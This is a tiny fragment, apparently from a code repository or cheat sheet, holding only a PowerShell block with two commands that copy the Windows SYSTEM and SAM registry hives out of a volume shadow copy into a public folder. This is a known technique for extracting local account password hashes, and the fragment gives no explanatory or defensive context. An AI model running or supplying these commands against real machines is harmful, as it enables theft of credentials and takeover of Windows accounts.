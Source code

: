 ```powershell
cmd /c 'copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\Users\Public\SYSTEM'
cmd /c 'copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\Users\Public\SAM'
```
